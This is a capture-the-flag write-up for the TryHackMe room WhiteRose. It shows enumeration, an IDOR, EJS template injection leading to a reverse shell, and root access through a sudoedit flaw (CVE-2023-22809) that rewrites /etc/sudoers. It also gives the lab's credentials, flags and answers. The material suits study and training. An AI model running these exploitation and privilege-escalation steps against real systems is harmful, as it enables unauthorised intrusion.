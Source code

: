 # TryHackMe – WhiteRose Write-up

## Machine Info
- **Name:** WhiteRose (cyprusbank)  
- **IP:** `10.10.107.216`  
- **Difficulty:** Easy  
- **Objective:** Get user.txt and root.txt flags  

---

## Enumeration

### Nmap Scan
```bash
nmap -sC -sV -T4 -oN nmap.out 10.10.107.216
```

**Results:**
- `22/tcp` → SSH (OpenSSH 7.6p1 Ubuntu 4ubuntu0.7)  
- `80/tcp` → HTTP (nginx 1.14.0, Ubuntu)  

At `http://10.10.107.216/` we are redirected to `http://cyprusbank.thm/`.  
Add to `/etc/hosts`:

```
10.10.107.216   cyprusbank.thm
```

---

### Subdomain Enumeration
```bash
ffuf -u http://cyprusbank.thm/ \
-w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt \
-H "Host: FUZZ.cyprusbank.thm" -fs 57
```

**Discovered:**
- `www.cyprusbank.thm`  
- `admin.cyprusbank.thm`  

Update `/etc/hosts`:

```
10.10.107.216   cyprusbank.thm www.cyprusbank.thm admin.cyprusbank.thm
```

---

## Exploitation

### Admin Panel Access
At `http://admin.cyprusbank.thm` we see a login form.  
Given credentials work:

```
Username: Olivia Cortez
Password: olivi8
```

---

### IDOR in Messages
In `Messages` we see parameter `c`:

```
http://admin.cyprusbank.thm/messages/?c=5 → messages
http://admin.cyprusbank.thm/messages/?c=0 → older messages
```

From messages we discover:
- Admin: **Gayle Bev**  
- Password of Gayle → login successful  
- Found **Tyrell Wellick’s phone number: 842-029-5701**

---

### Source Leak and Fuzzing
Intercept request to `/settings` in Burp.  
Removing `password` parameter → ReferenceError with source code leak.  

Parameter fuzzing:
```bash
ffuf -request req2.ffuf -request-proto http \
-w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 1561
```

Interesting parameters:
- `client`
- `delimiter`
- `async`

Application uses **EJS templates** → vulnerable to SSTI (CVE-2022-29078).

---

### Remote Code Execution
Exploit SSTI and set up reverse shell:

```bash
nc -lnvp 9001
```

On shell:
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

Access gained as **web** user.

---

## Privilege Escalation

### Sudo Permissions
```bash
sudo -l
```

Output:
```
(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Sudo version: `1.9.12p1` → vulnerable to CVE-2023-22809.

---

### Exploit sudoedit
```bash
export SUDO_EDITOR='nano -- /etc/sudoers'
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Add:
```
web ALL=(ALL:ALL) NOPASSWD: ALL
```

---

### Root Access
```bash
sudo su
cd /root
cat root.txt
```

---

## Flags
- **user.txt** → `THM{4lways_upd4te_uR_d3p3nd3nc!3s}`  
- **root.txt** → `THM{4nd_uR_p4ck4g3s}`  

---

## Answers
- Tyrell Wellick’s phone number: `842-029-5701`
